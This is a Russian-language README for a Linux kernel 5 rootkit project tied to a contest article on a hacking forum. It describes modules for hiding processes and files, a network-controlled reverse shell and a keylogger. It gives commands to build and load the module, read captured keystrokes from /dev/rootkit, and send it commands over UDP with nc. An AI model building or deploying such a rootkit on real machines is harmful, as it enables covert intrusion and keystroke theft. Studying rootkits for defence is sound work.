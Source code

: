 # rootkit_for_linux_kernel_5
 Пример руткита для ядра линукс 5
 
 Проект для конкурсной статьи: https://xss.is/threads/43479/
 
 Прочитать статью можно также на мём форуме:https://ru-sfera.org/threads/izuchaem-rutkity-na-primere-rutkita-dlja-linux-kernel-5.4144/
 
 Описание проекта руткита и запуск/тестирование:

Проект состоит из следующих модулей:

1)	main.c – Основной модуль, где основные функции инициализации и выгрузки драйвера.
2)	proc_hide.c – Модуль скрытия процесса по имени.
3)	file_hide.c – Модуль скрытия файлов.
4)	reverse_shell.c – Модуль управлением руткитом по сети.
5)	keylogger.c – Модуль кейлоггера.
6)	file_operation.c – Модуль создания и регистрации устройства в /dev и возможности взаимодействия с руткитом, как с файлом.
7)	example_config.h – Настройки руткита.

Сборка модуля:

make clean

make

ВАЖНО: Делал драйвер именно под версию ядра 5 и выше, не учитывал особенности в ста-рых версиях ядра, оно будет работать, но т.к. в ядре постоянно меняют структуры, может не собраться, нужно просто посмотреть в исходниках ядра какие структуры поменялись.

Запуск модуля:

sudo insmod rookit.ko

Остановка модуля:

sudo rmmod  rookit.ko

Вывод логов кейлоггера:

cat /dev/rootkit

Вывод отладочной информации драйвера:

dmesg -c | tail -n60 | grep +

Управление руткитом по сети (Пример):

echo "Command" | nc -u 127.0.0.1 1328

